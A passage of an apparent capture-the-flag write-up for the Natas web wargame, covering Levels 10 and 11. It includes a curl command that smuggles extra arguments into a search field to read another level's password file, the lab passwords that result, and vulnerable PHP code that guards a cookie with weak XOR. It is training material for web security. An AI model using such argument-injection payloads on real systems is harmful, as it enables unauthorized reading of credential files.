 This level only check whether the input contains character `;`, `|` and `&`.

```
$ curl -u natas10:nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu http://natas10.natas.labs.overthewire.org/ -F 'needle=. /etc/natas_webpass/natas11 #' -F 'submit=Search'
```

```
U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK
```

# 12. Level 11

```php
<?php
// http://natas11.natas.labs.overthewire.org/index-source.html
$defaultdata = array( "showpassword"=>"no", "bgcolor"=>"#ffffff");

function xor_encrypt($in) {
    $key = '<censored>';
    $text = $in;
    $outText = '';

    // Iterate through each character
    for($i=0;$i<strlen($text);$i++) {
    $outText .= $text[$i] ^ $key[$i % strlen($key)];
    }

    return $outText;
}

function loadData($def) {
    global $_COOKIE;
    $mydata = $def;
    if(array_key_exists("data", $_COOKIE)) {
    $tempdata = json_decode(xor_encrypt(base64_decode($_COOKIE["data"])), true);
    if(is_array($tempdata) && array_key_exists("showpassword", $tempdata) && array_key_exists("bgcolor", $tempdata)) {
        if (preg_match('/^#(?:[a-f\d]{6})$/i', $tempdata['bgcolor'])) {
        $mydata['showpassword'] = $tempdata['showpassword'];
        $mydata['bgcolor'] = $tempdata['bgcolor'];
        }
    }
    }
    return $mydata;
}

function saveData($d) {
    setcookie("data", base64_encode(xor_encrypt(json_encode($d))));
}

$data = loadData($defaultdata);

if(array_key_exists("bgcolor",$_REQUEST)) {
    if (preg_match('/^#(?:[a-f\d]{6})$/i', $_REQUEST['bgcolor'])) {
        $data['bgcolor'] = $_REQUEST['bgcolor'];
    }
}

saveData($data);
?>
```
